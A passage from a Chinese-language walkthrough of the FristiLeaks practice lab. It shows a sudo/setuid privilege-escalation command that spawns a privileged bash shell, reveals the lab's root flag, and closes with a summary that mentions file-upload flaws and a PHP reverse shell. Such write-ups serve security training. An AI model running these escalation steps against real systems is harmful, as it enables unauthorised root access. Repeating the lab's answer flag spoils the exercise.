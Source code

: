 测试发现，这个后面加上命令，会执行的，所以构造提权的bash

```shell
sudo -u fristi /var/fristigod/.secret_admin_stuff/doCom bash -p
```

![](./pic/51.jpg)

查看`root`目录下的文件，发现最后的`flag`为`Y0u_kn0w_y0u_l0ve_fr1st1`

![](./pic/52.jpg)



# 总结

该靶机的考察很广，基本上都涉及一点

1. 对于网站的`robots.txt`，以及图片的隐藏信息，不一定隐写，可能就在图片上
2. 对于网站的页面源代码一定要看
3. 对于文件上传漏洞的简单测试
4. 对于`php`代码以及反弹shell的测试
5. 对于靶机内信息收集的全面性
6. 对于提权一些信息也要知道，这里就是查看命令的历史记录